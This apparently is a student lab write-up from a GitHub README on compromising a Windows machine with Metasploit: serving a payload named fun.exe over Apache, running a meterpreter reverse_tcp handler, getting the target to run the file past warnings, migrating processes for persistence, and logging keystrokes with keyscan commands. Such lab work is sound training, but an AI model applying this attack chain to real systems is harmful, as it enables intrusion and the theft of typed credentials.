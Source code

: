 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### OUTPUT:
![ex5 eh](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/02cedbdd-26a7-4e76-847f-b685f86b3c66)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/4ee395ea-86f5-47db-9932-d0f9169d7319)

Start apache server sudo systemctl apache2 start and Check the status of apache2
![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/e328e1e0-abc4-4274-be6f-6a054af16418)

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/05b3d119-ecb7-49ab-a8e1-20cf99856d87)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/726052a5-67ba-4ff8-8b33-b2c608406db0)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/017a350e-c56b-41fb-b3ba-d7474a551d2f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/7e624603-aabc-4bb7-ae05-2fe5af375478)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/d66ae7b4-45ca-48c9-b05e-cb90d173189e)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Dhanashreemullaithasan/Compromising-windows-using-Metasploit/assets/94165415/81e42b1d-747f-403f-a307-8ae53b7c6652)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
